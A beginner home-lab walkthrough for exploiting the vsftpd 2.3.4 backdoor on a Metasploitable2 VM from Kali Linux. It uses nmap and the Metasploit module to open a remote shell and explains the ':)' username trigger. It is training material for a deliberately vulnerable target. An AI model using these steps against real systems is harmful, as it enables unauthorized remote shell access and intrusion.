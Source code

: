 # Beginner Walkthrough: Exploiting the vsftpd 2.3.4 FTP Backdoor on Metasploitable2

This guide will show you, step-by-step, how to exploit a real vulnerability in the Metasploitable2 virtual machine using Kali Linux. You’ll use the famous vsftpd 2.3.4 backdoor to gain a shell on the target.

---

## **What You Need**
- **pfSense** (router)
- **Metasploitable2 VM** (target)
- **Kali Linux VM** (attacker)
- All VMs must be on the same internal network (e.g., `homelab`)

---

## **Step 1: Find the Target’s IP Address**
1. Log in to Metasploitable2 (`msfadmin` / `msfadmin`).
2. Run:
   ```bash
   ifconfig
   ```
3. Note the IP address for `eth0` (e.g., `192.168.1.30`).

---

## **Step 2: Scan for Open FTP Port**
1. On Kali Linux, open a terminal.
2. Run:
   ```bash
   nmap -sV <TARGET_IP>
   ```
   Replace `<TARGET_IP>` with the IP from Step 1.
3. Look for this in the output:
   ```
   21/tcp open  ftp     vsftpd 2.3.4
   ```
   This means the vulnerable FTP service is running.

---

## **Step 3: Launch Metasploit Framework**
1. In Kali, start Metasploit:
   ```bash
   msfconsole
   ```
2. Wait for the prompt (`msf6 >`).

---

## **Step 4: Search for the Exploit**
1. In Metasploit, type:
   ```
   search vsftpd
   ```
2. You should see:
   ```
   exploit/unix/ftp/vsftpd_234_backdoor
   ```

---

## **Step 5: Use the Exploit Module**
1. Select the exploit:
   ```
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```
2. Set the target IP:
   ```
   set RHOSTS <TARGET_IP>
   ```
3. (Optional) Check the options:
   ```
   show options
   ```

---

## **Step 6: Run the Exploit**
1. Type:
   ```
   exploit
   ```
2. If successful, you’ll see:
   ```
   Command shell session 1 opened
   ```
3. You now have a shell on Metasploitable2! Try running:
   ```
   whoami
   uname -a
   ls
   ```

---

## **Step 7: Clean Up**
- Type `exit` to close the shell.
- Type `exit` again to leave Metasploit.

---

## **What Just Happened?**
- The vsftpd 2.3.4 service has a secret backdoor. When you connect with a username ending in ":)", it opens a shell on port 6200.
- Metasploit automates this attack and gives you a command shell on the target.

---


## **References**
- [Metasploitable2 Guide](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [vsftpd 2.3.4 Backdoor Exploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

---

*For educational use only. Never attack systems you do not own or have permission to test.* 